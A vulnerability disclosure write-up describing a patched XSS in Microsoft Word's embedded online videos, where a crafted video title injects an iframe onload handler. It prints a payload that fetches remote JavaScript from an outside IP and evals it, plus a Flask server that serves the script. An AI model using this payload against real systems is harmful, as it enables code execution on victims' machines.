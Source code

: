 ```yaml
---
layout: post
title:  "2023 Microsoft Office RCE"
date:   2023-10-04 14:57:20 +0900
---
```


# Summary

In the server, when parsing a video from a link designated by an attacker, a malicious payload included in the video title can trigger an XSS (Cross-site Scripting) attack, allowing the execution of arbitrary Javascript code.

# The Basics

- **Product:** Office Word, including Office 365 Word
- **Tested Version:** Microsoft Word for Microsoft 365 MSO (Version 2306 Build 16.0.16529.20164) 64-bit
- **Bug-class**: XSS(Cross-Site Scripting)

# The Vulnerability

  Various Office products, including MS Word, allow users to insert desired external videos into documents via the "Online Videos" tab.

![pic1.jpg](office/pic1.jpg)

  When a user plays an external video embedded in a document, Office checks whether the provider of the external video is trustworthy, such as YouTube. This check is performed by applying the following regular expression to the URL.

```python
https?://(www\.)?youtube\.\w{2,3}/.*|https?://(www\.)?youtube-nocookie\.\w{2,3}/.*|https?://youtu\.be/.*|https?://(player\.)?vimeo\.com/.*|https?://(\w+\.)?slideshare\.net/.*|https?://(\w+\.)?microsoftstream\.com/.*
```

  If it is deemed trustworthy, it sends a request like the following to fetch data such as the video's title or thumbnail.

```python
GET https://hubble.officeapps.live.com/mediasvc/api/media/oembed?url=https%3A%2F%2Fwww.youtube.com%2Fembed%2FGX2nEmvxK-4%3Ffeature%3Doembed&streamsso=true&lcid=1033&syslcid=1042&uilcid=1033&app=0&ver=16&build=16.0.16529&platform=Win32 HTTP/1.1
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Word 16.0.16529; Pro)
X-IDCRL_ACCEPTED: t
X-Office-Version: 16.0.16529
X-Office-Application: 0
X-Office-Platform: Win32
X-Office-AudienceGroup: Production
X-Office-SessionId: DE75B69F-49BA-4D92-BD45-2B02504B4021
Host: hubble.officeapps.live.com
```

  The server at [hubble.officeapps.live.com](http://hubble.officeapps.live.com/) responds with information including the video's title, description, and the HTML iframe tag to play the video.

  The vulnerability arises from this iframe tag. The server adds the video's title to the “**title”** attribute of the iframe tag without any validation. As a result, by appropriately using double quotes, one can freely add an **onload** attribute to the iframe tag that the server responds with.

  Below is an example of an [officeapps.live.com](http://officeapps.live.com/) server response to a malicious external video.

```json
{
    "description": "",
    "video_description": "",
    "start_time": null,
    "end_time": null,
    "embed_url": "https://www.youtube.com/embed/GX2nEmvxK-4?feature=oembed",
    "html": "<iframe width=\"200\" height=\"150\" src=\"https://www.youtube.com/embed/GX2nEmvxK-4?feature=oembed\" frameborder=\"0\" allow=\"accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share\" allowfullscreen=\"\" title=\"\" onload=\"fetch('http://158.247.239.32/a.js').then(function(a){a.text().then(function(a){eval(a)})})\" sandbox=\"allow-scripts allow-same-origin allow-popups\"></iframe>",
    "type": "video",
    "title": "\" onload=\"fetch('http://127.0.0.1/a.js').then(function(a){a.text().then(function(a){eval(a)})})",
    "provider_name": "YouTube",
    "provider_url": "https://www.youtube.com/",
    "thumbnail_url": "https://i.ytimg.com/vi/GX2nEmvxK-4/hqdefault.jpg",
    "thumbnail_width": 480.0,
    "thumbnail_height": 360.0,
    "width": 200.0,
    "height": 150.0
}
```

  Based on this response, Word writes an HTML file to be rendered through **Edge Webview** in the %LOCALAPPDATA%\Microsoft\Windows\INetCache\Content.Word directory.

  As a result, this HTML will include the JS code injected by the attacker. (The logic for this is implemented in wwlib!XszCreateVideoHTML. A detailed analysis of this is beyond the scope of this article.)

  As seen above, the sandbox attribute of the iframe has allow-scripts, allow-same-origin, and allow-popups set. This means that JavaScript can be executed, desired URIs can be run through window.open, or scripts from an external server can be executed via the fetch method.

# Exploit

1. As shown in the example in the vulnerability description, create a YouTube video with a title that includes a payload for inserting the onload attribute.

`" onload="fetch('[http://127.0.0.1/a.js](http://127.0.0.1/a.js)').then(function(a){a.text().then(function(a){eval(a)})})`

1. Click on the Online Videos tab in Word and insert the URL of the malicious video into the document.

![Untitled](office/Untitled.png)

1. Set up a simple web server that allows CORS and responds with malicious javascript, as below. (The example executes calc.exe through the calculator URI Scheme.)

```python
from flask import Flask

app = Flask(__name__)

@app.after_request
def apply_cors(response):
    response.headers['Access-Control-Allow-Origin'] = '*'
    return response

@app.route('/a.js', methods=['GET'])
def exploit():
    return 'window.open("calculator://")'
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

# Demo

[PoC_Public.mp4](office/PoC_Public.mp4)

# Conclusion

  The vulnerability has shown that an attacker can create a Word document containing a specific video and execute the arbitrary javascript code when playing the video.

  Past critical exploits of Office, such as CVE-2021-40444 and CVE-2022-30190 (Folina), all started with the execution of arbitrary javascript. If it's linked with a new vulnerable URI, like the previously exploited ms-msdt, it could directly lead to a critical RCE (Remote Code Execution) vulnerability.

  Especially as a vulnerability that triggers when a video embedded in Word is played, it's easy for an attacker to induce a user to play the video. Prompt action is required.

# Reference

- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444)
- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30190](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30190)

# TimeLine

- 2023-07-27 Vulnerability reported to MSRC
- 2023-08-25 Recognized as a security vulnerability with a severity of **Critical**
- 2023-09-12 Patched in the latest release
